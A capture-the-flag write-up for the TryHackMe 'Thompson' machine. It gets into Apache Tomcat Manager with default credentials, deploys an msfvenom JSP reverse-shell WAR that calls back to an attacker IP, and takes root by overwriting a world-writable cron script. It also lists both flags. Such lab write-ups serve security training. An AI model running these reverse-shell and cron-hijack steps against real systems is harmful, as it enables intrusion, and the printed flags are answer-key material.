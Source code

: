 # TryHackMe - Thompson

**Machine:** Thompson  
**Description:** Boot2root machine for FIT and BSides Guatemala CTF  
**Objective:** Obtain `user.txt` and `root.txt`

---

## Overview

We’ll exploit Apache Tomcat Manager (using a WAR reverse shell) to gain a foothold as the `tomcat` user, then escalate privileges with a writable cron script to grab the root flag.

---

## 1. user.txt

### 1.1 Nmap Discovery

Nmap shows three open ports—SSH on 22, AJP on 8009, and Apache Tomcat on 8080:

~~~plaintext
22/tcp   open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
8009/tcp open  ajp13   Apache Jserv (Protocol v1.3)
8080/tcp open  http    Apache Tomcat 8.5.5
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
~~~

A **dirsearch** scan reveals `/manager`. Checking the configuration snippet or HTTP response shows:

~~~plaintext
<user username="tomcat" password="s3cret" roles="manager-gui"/>
~~~

Hence, **username** is `tomcat` and **password** is `s3cret`.

---

### 1.2 Deploying a WAR Reverse Shell

1. **Generate** a JSP reverse shell:
   ~~~bash
   msfvenom -p java/jsp_shell_reverse_tcp lhost=10.9.0.54 lport=4444 -f war -o shell.war
   ~~~

2. **Open** a Metasploit listener:
   ~~~bash
   msfconsole -q
   use multi/handler
   set payload java/jsp_shell_reverse_tcp
   set lhost 10.9.0.54
   set lport 4444
   run -j
   ~~~

3. **Upload** `shell.war` in Tomcat Manager (log in as `tomcat:s3cret`). It auto-deploys to `/shell`.

4. **Visit** `/shell` in a browser. Metasploit should catch a reverse shell:
   ~~~plaintext
   msf5 exploit(multi/handler) > sessions -i 1
   tomcat@ubuntu:/$ id
   uid=1001(tomcat) gid=1001(tomcat)
   ~~~

---

### 1.3 Reading `user.txt`

   ~~~plaintext
   cat /home/jack/user.txt
   39400c90bc683a41a8935e4719f181bf
   ~~~

**User Flag**  
   ~~~plaintext
   39400c90bc683a41a8935e4719f181bf
   ~~~

---

## 2. root.txt

### 2.1 Cron Job Enumeration

A cron job in `/etc/crontab` runs every minute as root:

~~~plaintext
*  *  *  *  *   root    cd /home/jack && bash id.sh
~~~

Inside `id.sh`:

~~~plaintext
#!/bin/bash
id > test.txt
~~~

Because `id.sh` is **world-writable**, we can overwrite it.

### 2.2 Privilege Escalation

Replace `id.sh` to read the root flag:

~~~bash
printf '#!/bin/bash\ncat /root/root.txt > test.txt' > id.sh
~~~

Wait for the cron to run, then check `test.txt`:

~~~plaintext
cat test.txt
d89d5391984c0450a95497153ae7ca3a
~~~

**Root Flag**  
   ~~~plaintext
   d89d5391984c0450a95497153ae7ca3a
   ~~~

---

## Final Thoughts

- Tomcat Manager (with found credentials) gave initial access.  
- A **world-writable** script in a **root-owned** cron job allowed reading the root flag.

**User Flag:** `39400c90bc683a41a8935e4719f181bf`  
**Root Flag:** `d89d5391984c0450a95497153ae7ca3a`

